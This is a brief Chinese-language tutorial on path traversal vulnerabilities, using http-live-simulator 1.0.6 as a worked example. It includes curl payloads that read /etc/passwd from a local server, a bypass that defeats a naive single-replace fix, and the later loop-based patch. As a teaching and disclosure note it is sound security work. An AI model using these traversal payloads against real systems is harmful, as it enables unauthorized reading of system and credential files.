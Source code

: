 ### 简介

* 目录穿越 Directory traversal/ 路径穿越 Path traversal
* 漏洞原理:攻击者通过可控的输入，以"参数值"、"畸形文件"等形式，将构造的"路径"传递给后端逻辑，实现路径穿越。
* 漏洞危害:任意文件读取、写入、删除、覆盖、修改...

### 测试方法

构造payload系统相关

| |root directory|directory separator|
|:-------------:|--|-----|
|Unix-like OS|`/`|`/`|
|Windows|`<drive letter>:\`|`\` or `/`|


### 实例1

http-live-simulator@1.0.6 中开发人员没有考虑到路径穿越问题

漏洞复现
```
# 1- Install the module : 
npm install -g http-live-simulator@1.0.6
# 2- Run the server : 
http-live
# 3- Attempt to access a file from outside that project's directory
# 可实现任意文件读取.  其中curl的参数--path-as-is 表示"Do not squash .. sequences in URL path" 不压缩url路径中的..
# 注意 紧跟8080之后额外加了一个/
curl --path-as-is http://localhost:8080//../../../../etc/passwd
```

第1次修复 是将参数值中的`/../`替换为空 仅替换一次(修复无效 可被绕过)
```
pathname = pathname.replace("/../",""); //fix for path traversal bug
```

绕过方式 `/./.././`
```
curl --path-as-is http://localhost:8080/./../././../././../././.././etc/passwd
```


第2次修复 是将参数值中的`/../`替换为空 循环替换 直到不存在`/../`为止

diff: https://github.com/prahladyeri/http-live-simulator/commit/354644525f1626c5921abac10913c0d47f1f1433
```
while(pathname.indexOf("/../") != -1) {
		pathname = pathname.replace("/../",""); //fix for path traversal bug
	}
```



